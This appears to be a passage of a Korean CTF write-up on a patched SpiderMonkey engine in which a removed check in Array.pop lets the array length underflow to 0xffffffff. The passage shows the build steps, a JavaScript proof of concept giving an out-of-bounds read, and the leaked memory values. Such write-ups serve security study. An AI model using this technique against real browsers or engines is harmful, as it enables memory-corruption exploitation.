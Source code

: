 조금 더 한 눈에 보여주는 사진은 다음과 같다.

![1](https://user-images.githubusercontent.com/43925259/67089040-a635f380-f1e1-11e9-9e83-cb559cb167a7.PNG)

빨간색 부분이 변한 부분이다.  Array는 인덱스와 길이 정보를 가진다. ([참고]([https://defenit.kr/2019/10/15/Pwn/%E3%84%B4%20Research/JSE_%EA%B8%B0%EB%B3%B8_%EA%B0%9C%EB%85%90/](https://defenit.kr/2019/10/15/Pwn/ㄴ Research/JSE_기본_개념/)))



**기존의 코드엔 pop 명령어를 사용할 때 Array의 index가 0이면 길이 정보가 감소하지 않고 index가 0이 아닐때는 길이 정보를 하나 감소하는 루틴**이 있었다. **하지만 그 루틴을 제거** 해버린 모습이다.



이제 원본 소스를 주어진 파일대로 수정한 후 컴파일을 진행할 것이다. 주어진 파일을 쓰지않고 다운받아서 컴파일을 하는 이유는 심볼이 없기 때문이다. 컴파일 명령은 다음과 같다.

```bash
mkdir build
cd build
../mozjs-24.2.0/js/src/configure
make
```



<hr/>

## OOB 배열 생성

기존 Array는 pop할때 인덱스가 0이라면 아무 작업을 하지 않는다. 하지만 현재는 **인덱스가 0일 때 pop을 하면 1이 감소되면서 길이 정보가 0xffffffff가 되기 때문에 OOB가 발생**한다. 

OOB가 발생하는 배열을 만들어서 OOB Read를 하는 소스 코드는 다음과 같다.

```javascript
a = [1, 2]
b = [3, 4]

for (var i = 0; i < 3; i++)
	a.pop()

print ('length: ' + a.length)

for (var i = 0; i < 10; i++)
	print(a[i]);
```

a라는 배열 바로 뒤에 b 배열을 두고 pop을 통해서 oob를 트리거 했다.



해당 코드를 **실행하는 방법**은 build에 들어있는 js라는 파일을 이용하면 된다. **js파일의 인자로 작성한 파일을 넘겨주면 실행이 된다.** (ex: build/js exp.js)



실행했을 때의 결과는 다음과 같다.

```
length: 4294967295
undefined
undefined
6.9063791040899e-310
6.9063790999006e-310
0
6.9063791034334e-310
4.243991582e-314
4.243991583e-314
3
4

```
